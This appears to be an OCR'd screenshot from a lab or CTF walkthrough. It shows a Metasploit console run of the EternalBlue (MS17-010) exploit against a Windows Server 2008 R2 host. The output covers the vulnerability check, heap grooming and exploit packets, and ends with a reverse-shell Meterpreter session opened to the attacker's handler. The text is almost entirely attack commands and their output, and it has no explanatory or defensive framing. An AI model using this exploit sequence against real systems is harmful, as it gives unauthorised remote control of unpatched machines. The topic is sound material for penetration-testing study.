 ```sh
If setting a PAYLOAD, this command can take an index from `show payloads'.

msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.5.19.216
rhosts => 10.5.19.216
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.26.4:4444 
[*] 10.5.19.216:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.5.19.216:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] 10.5.19.216:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.5.19.216:445 - The target is vulnerable.
[*] 10.5.19.216:445 - Connecting to target for exploitation.
[+] 10.5.19.216:445 - Connection established for exploitation.
[+] 10.5.19.216:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.5.19.216:445 - CORE raw buffer dump (51 bytes)
[*] 10.5.19.216:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.5.19.216:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 10.5.19.216:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 10.5.19.216:445 - 0x00000030  6b 20 31                                         k 1             
[+] 10.5.19.216:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.5.19.216:445 - Trying exploit with 12 Groom Allocations.
[*] 10.5.19.216:445 - Sending all but last fragment of exploit packet
[*] 10.5.19.216:445 - Starting non-paged pool grooming
[+] 10.5.19.216:445 - Sending SMBv2 buffers                                                                                                                                                 
[+] 10.5.19.216:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.                                                                                                 
[*] 10.5.19.216:445 - Sending final SMBv2 buffers.                                                                                                                                          
[*] 10.5.19.216:445 - Sending last fragment of exploit packet!                                                                                                                              
[*] 10.5.19.216:445 - Receiving response from exploit packet                                                                                                                                                     
[+] 10.5.19.216:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!                                                                                                                                 
[*] 10.5.19.216:445 - Sending egg to corrupted connection.                                                                                                                                                                                 
[*] 10.5.19.216:445 - Triggering free of corrupted buffer.                                                                                                                                                                                 
[*] Sending stage (200262 bytes) to 10.5.19.216                                                                                                                                                                                            
[+] 10.5.19.216:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=                                                                                                                                                                                          
[+] 10.5.19.216:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=                                                                                                                                                                                          
[+] 10.5.19.216:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=                                                                                                                                                                                          
[*] Meterpreter session 1 opened (10.10.26.4:4444 -> 10.5.19.216:49280 ) at 2024-01-14 19:58:14 +0530                                                                                                                                                                        
                                                                                                                                                                                                                                                                             
meterpreter > sysinfo                                                                                                                                                                                                                                                        
```